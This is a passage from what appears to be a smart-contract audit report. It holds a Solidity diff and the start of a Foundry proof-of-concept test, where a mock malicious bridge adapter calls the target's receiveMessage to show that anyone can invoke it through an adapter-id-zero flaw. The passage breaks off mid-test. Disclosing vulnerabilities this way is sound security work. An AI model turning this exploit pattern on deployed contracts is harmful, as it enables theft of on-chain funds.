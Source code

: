 ```diff
+
+    error AdapterInitialized(uint);
+    error AdapterNotInitialized(uint);
     error MessageAlreadySeen(bytes32 messageId);
-    error MessageUnknown(bytes32 messageId);
+    error AdapterUnknown(IBridgeAdapter adapter);
+
+    event successfullyBypassedAllrevertChecksAbove();
+
+    uint256 public number = 13; //testing


```

### POC Foundry

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import { IBridgeAdapter,Counter, Messages} from "../src/Counter.sol";


// a MockBridgeAdapter
contract MockBridgeAdapter {
    
    function cat(Messages.MessageReceived memory payload) external  {
        
    }
}

contract MockMaliciousBridgeAdapter is IBridgeAdapter {
    Counter target;
    constructor(address _target) {
        target = Counter(_target);
    }
    function cat(Messages.MessageReceived memory payload) external {
        // calls contract with malicious payload
        target.receiveMessage(payload);

    }
    
}

contract CounterTest is Test {
    Counter public counter;
    address admin = makeAddr("admin");
    //address manager = makeAddr('manager');

    

    function setUp() public {
        //vm.startPrank(admin);
        counter = new Counter(admin);
        // counter.grantRole(counter.MANAGER_ROLE(),manager); // Already set
    }

    
    // anyOne would be able to call `function receiveMessage()`
    function testContractVulnerableDueToAdapterIdZeroIllustration() public {
        vm.startPrank(admin);
        // adds 5 instances of adapter (For instance)
```